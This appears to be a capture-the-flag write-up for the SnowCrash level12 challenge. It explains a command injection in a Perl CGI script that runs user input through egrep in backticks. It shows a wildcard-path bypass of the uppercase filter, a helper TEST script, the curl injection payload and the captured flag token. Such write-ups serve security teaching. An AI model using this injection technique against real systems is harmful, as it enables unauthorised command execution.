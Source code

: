 We found this Perl script in the user's home directory:

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1]; # y
  $xx = $_[0]; # x
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) { # recupere le resultat
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

It's a lot of code for not much in the end. These two lines respectively set the variable x to uppercase and remove spaces:

```
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
```

This means that we can't directly enter commands like getflag, which would immediately turn into GETFLAG.

The rest of the code is not really interesting; it's useless in our exploitation. The vulnerability lies here:

```perl
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```
In reality, user input is not validated, and we can write almost anything we want. The problem remains the capitalization.

To work around this problem, we can place the getflag command inside a file that is already named in uppercase; this allows us to bypass the two parameter modifications. We can then execute the script by sending a bash command as a parameter, such as $(./TEST).

I've created a small TEST script:

```bash
#!/bin/bash

getflag > /tmp/flag
```

The problem with this script is that it's located here: `/tmp/TEST`. The server is not in the tmp directory; it needs the absolute path. If we try to send the file path as a parameter, it will transform into `/TMP/TEST`.


As a solution, we can simply ask the server to execute all TEST scripts present in this file hierarchy: /*/TEST. This allows us to avoid entering /tmp in plain text and convert it to uppercase.

Don't forget to make the script executable:

```
chmod a+x TEST
```

And here is the payload.
```
level12@SnowCrash:/tmp$ curl '127.0.0.1:4646?x=$(/*/TEST)&y=salut'
.level12@SnowCrash:/tmp$^C
level12@SnowCrash:/tmp$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```